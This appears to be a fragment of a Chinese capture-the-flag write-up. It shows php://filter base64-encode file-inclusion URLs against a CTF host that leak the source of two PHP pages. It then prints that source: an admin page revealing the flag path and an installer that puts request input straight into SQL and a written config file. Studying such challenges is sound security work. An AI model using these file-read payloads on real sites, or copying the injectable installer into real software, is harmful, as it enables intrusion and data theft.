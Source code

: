 > [http://ctf.chaffee.cc:23333/?action=php://filter/read=convert.base64-encode/resource=admin/index](http://ctf.chaffee.cc:23333/?action=php://filter/read=convert.base64-encode/resource=admin/index)<br>[http://ctf.chaffee.cc:23333/?action=php://filter/read=convert.base64-encode/resource=install/index](http://ctf.chaffee.cc:23333/?action=php://filter/read=convert.base64-encode/resource=install/index)

得到admin/index.php，得到了flag的路径。

```
&lt;?php


if (!defined("ROBOTS")) `{`die("Access Denied");`}`


echo "Congratulate hack to here, But flag in /var/www/flag.flag";

```

install/index.php

```
&lt;?php


if(file_exists("./install.lock")) `{`
    die("Have installed!");
`}`


$host = $_REQUEST['host'];
$user = $_REQUEST['user'];
$passwd = $_REQUEST['passwd'];
$database = $_REQUEST['database'];


if(!empty($host) &amp;&amp; !empty($user) &amp;&amp; !empty($passwd) &amp;&amp; !empty($database)) `{`
    $conn = new mysqli($host, $user, $passwd);
    if($conn-&gt;connect_error) `{`
        die($conn-&gt;connect_error);
    `}` else `{`
        $conn-&gt;query("DROP DATABASE ".$database);
        $conn-&gt;query("CREATE DATABASE ".$database);
        //To be continued
        mysqli_close($conn);


        $config = "&lt;?phpn$config=";
        $config .= var_export(array("host"=&gt;$host, "user"=&gt;$user, "passwd"=&gt;$passwd), TRUE).";";
        file_put_contents(md5($_SERVER["REMOTE_ADDR"])."/config.php", $config);
    `}`
`}`

```
